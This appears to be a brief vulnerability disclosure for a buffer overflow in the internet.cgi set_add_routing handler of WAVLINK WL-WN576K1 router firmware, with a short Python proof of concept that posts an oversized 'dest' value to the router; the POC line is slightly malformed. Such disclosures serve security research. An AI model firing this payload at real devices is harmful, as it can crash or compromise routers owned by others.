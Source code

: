 # buff overflow

## WAVLINK_WL_WN576K1

version: 20220801

## Description:

There is a buff overflow in internet.cgi/set_add_routing

## Source:

you may download it from : 

[WL-WN576K1 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/5ce8519bd8.html)

 Analyse:

![](7.png)

get value from dest, and set hostnet with 'net'

![](8.png)

finally call strcat, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/internet.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'addrouting', 'dest': + payload,'hostnet':'net'})
```
